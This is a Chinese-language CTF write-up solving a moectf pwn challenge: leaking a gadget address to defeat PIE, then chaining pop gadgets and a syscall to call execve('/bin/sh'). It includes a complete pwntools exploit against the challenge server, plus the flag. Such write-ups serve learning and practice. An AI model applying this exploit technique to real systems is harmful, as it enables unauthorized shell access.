

# syscall

这题倒是没什么关于题目本身的幺蛾子，但是我tm又抄错题了，所以还是耗了我几个小时……

-   Arch:     amd64-64-little
    <Br>RELRO:    Full RELRO
    <br>Stack:    No canary found
    <Br>NX:       NX enabled
    <Br>PIE:      PIE enabled

差一点全明星阵容。但是开了nx对rop影响很大，因为没法提前知道rop地址。还好main函数送了个礼物。

```c
undefined8 main(void)
{
  puts("I\'ll give you a gift first!");
  printf("%p\n",gadget);
  puts("Go Go Go!!!");
  vuln();
  return 0;
}
```

泄露了gadget地址，那么可以根据这个地址算出基地址，就和普通rop没区别了。看看gadget里面准备了什么好玩意。



再次提醒ghidra玩家，这段gadget默认不会被反编译，一定记得右键汇编选择Disassemble进行反编译（但是大家都去用ida pro了，谁用ghidra呢？找不到资源的我只能默默哭泣）。

```c
void vuln(void)
{
  undefined local_48 [64];
  read(0,local_48,128);
  read(0,local_48,60);
  return;
}
```

还是很直白。不用多想了，看gadget和题目就知道这次的目标是利用syscall getshell。我在之前并没有做过syscall类型的rop题，所以查了一些资料。首先是[64位下syscall的使用](https://blog.csdn.net/weixin_43363675/article/details/117944212)。这篇帖子告诉我们64位下使用syscall getshell需要利用execve这个函数，之前常用的system是不行的，因为system不属于系统调用，没有系统调用号。执行execve系统调用需要满足一下条件：

- rax = 0x3b
<br>rdi="/bin/sh"
<BR>rsi = 0x0
<br>rdx = 0x0
<br>SYSCALL         等同于execve("/bin/sh", 0, 0);

回顾上面给的gadget，pop rdi，pop rsi，pop rdx和SYSCALL都有了，那rax该怎么办呢？汇编好的大佬们肯定知道，rax在64位汇编中装着上一次执行函数的返回值，但是我汇编不好，没想起来，于是搜到了类似的[内容](https://cloud.tencent.com/developer/article/1965872)。这就是为什么会有两次read了，一次read构造rop，一次read写入rax，因为read是有返回值的，返回值为实际读取到的字节数。因此我们只需要在第二个read处发送0x3b个任意字节就可以将rax设为0x3b也就是execve的系统调用号了。

顺便更正一个内容。我之前在做rop64的时候实验过1个字符的，当时觉得第二次读入的内容会完全覆盖第一次读入的内容。实际上不完全是这样，如果第一次read往变量s读入abcde，第二次往变量s读入b，输出结果为bbcde。看下面的脚本。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>
int main() {
    char input[8];
    read(0,input,7);
    printf("%s",input);
    read(0,input,1);
    printf("%s",input);
}
```

主要还是没有c语言基础啊。不过有了上面的知识就能写出exp了。

```python
from pwn import *
p=remote("124.223.158.81",27005)
gadget_offset=0x001011a9
pop_rdi_offset=0x001011b1
pop_rsi_rdx_offset=0x001011b3
bin_sh_offset=0x00104010
syscall_offset=0x001011b6
p.recvuntil("I\'ll give you a gift first!\n")
gadget_addr=int(p.recvuntil("\n")[:-1],16)
elf_base=gadget_addr-gadget_offset
pop_rdi=elf_base+pop_rdi_offset
pop_rsi_rdx=elf_base+pop_rsi_rdx_offset
bin_sh=elf_base+bin_sh_offset
syscall=elf_base+syscall_offset
payload=b'a'*0x48+p64(pop_rdi)+p64(bin_sh)+p64(pop_rsi_rdx)+p64(0)+p64(0)+p64(syscall)
p.sendafter("Go Go Go!!!",payload)
payload=b'a'*0x3b
p.send(payload)
p.interactive()
```

最开始pop_rdi的地址抄错了，我真的是服了。

- ### Flag
  > moectf{n0w_14m_4_m45732_0f_5y5c411_h4h4_7h475_23411y_c242y}